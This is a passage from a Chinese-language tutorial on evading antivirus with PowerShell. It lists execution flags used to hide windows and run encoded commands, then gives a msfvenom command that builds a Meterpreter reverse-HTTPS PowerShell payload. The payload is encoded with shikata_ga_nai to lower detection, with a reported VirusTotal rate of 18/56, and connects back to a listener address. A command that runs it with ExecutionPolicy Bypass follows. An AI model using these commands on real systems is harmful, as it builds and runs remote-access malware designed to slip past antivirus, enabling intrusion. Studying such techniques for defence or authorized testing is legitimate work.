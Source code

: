 **4.Unrestricted执行策略标志**
```
powershell -ExecutionPolicy unrestricted -File ./a.ps1
```
当运行一个从网上下载的未签名的脚本时，会给出权限提示

需要解释的是：
```
Invoke-Expression（IEX的别名）：用来把字符串当作命令执行。
WindowStyle Hidden（-w Hidden）：隐藏窗口
Nonlnteractive（-NonI）：非交互模式，PowerShell不为用户提供交互的提示。
NoProfile（-NoP）：PowerShell控制台不加载当前用户的配置文件。
Noexit（-Noe）：执行后不退出Shell。
EncodedCommand（-enc）: 接受base64 encode的字符串编码，避免一些解析问题
```

# 3 powershell加载shellcode

## 3.1 法1：msf-ps1本地执行(VT免杀率18/56)

metasploit可以直接生成ps1脚本的payload,这里就先用msf生成一个原生态的ps1木马试一下，不过这个估计被杀软查杀的比较惨了，稍微加了下`shikata_ga_nai`编码。

用msfvenom生成powershell马，注意这里是`-f psh`。

```
msfvenom -p  windows/x64/meterpreter/reverse_https -e x86/shikata_ga_nai -i 15 -b '\x00' lhost=10.211.55.2 lport=3333 -f psh -o shell.ps1
```
主要这里要用x64架构的payload，不然的话64位的windows会默认调用64的powershell，执行会出错。

将shell.ps1拷贝到测试机器上，本地执行。

```
powershell.exe -ExecutionPolicy Bypass -NoExit -File  shell.ps1
```

![6ea9aef776db326a766d99b9f7ed97a3](images/2020.04-bypass-06/4.png)
